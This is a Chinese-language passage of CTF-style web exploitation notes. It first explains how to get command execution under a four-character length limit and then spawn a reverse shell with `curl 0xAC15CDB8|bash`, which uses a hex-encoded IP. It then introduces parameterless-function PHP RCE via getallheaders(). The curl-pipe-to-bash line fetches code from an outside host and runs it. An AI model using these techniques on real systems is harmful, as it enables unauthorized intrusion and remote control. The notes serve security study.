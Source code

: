 步骤一:`ls>>_`无法实现

构造`ls -t > g`                 #构造`ls -th > g`

`>g\;`      #为防止"g"后面有其他文件名造成影响,**;**阻断后面字符

`>g\>`

`>ht-`

`>sl`

`>dir`

`*>v`            #把前面内容输出到`v`中

`>rev`          #创建一个rev文件,配合`*`实现rev命令

`*v>x`           #写入后x内容为`ls  -th >g  ;g `



步骤二:构造反弹shell

采用十六进制

`curl 0xAC15CDB8|bash `

AC对应172        15对应21         CD对应205           B8对应184



- 监听端口7777

- 用python开启web服务

- 运行脚本`4长度POC.py`

**注意:**脚本最后两行`s.get`貌似没有执行,需要手动执行



# 无参数命令执行请求头RCE

`';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])`

`[^\W]+\((?R)?\)`

**[^\W]**匹配字母,数字,下划线

**\\(?\\)\\**匹配**"()"**,但是**()**内不能出现任何参数

**(?R)**表示递归,**a(b(c()))**都可以匹配到

**[^\W]+\\(?\\)\\**匹配到任何**a()**形式的字符串



总结一下:只有当提交函数并且没有任何参数时才可以正常执行



## HTTP请求(php7.3以后)

### getallheaders()

